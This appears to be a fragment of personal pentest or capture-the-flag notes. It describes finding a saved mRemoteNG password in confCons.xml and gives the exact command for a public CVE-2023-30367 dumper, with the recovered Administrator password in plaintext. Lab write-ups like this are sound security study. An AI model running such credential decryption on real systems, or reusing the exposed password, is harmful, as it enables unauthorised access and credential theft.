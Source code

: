 - Found saved password for **`mRemoteNG`** application in `AppData/Local/`in `confCons.xml`file:
	- ![[Pasted image 20250422161458.png]]
- Crack using : https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper
- `python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='`
- ![[Pasted image 20250422161534.png]]
`Administrator` : `thXLHM96BeKL0ER2`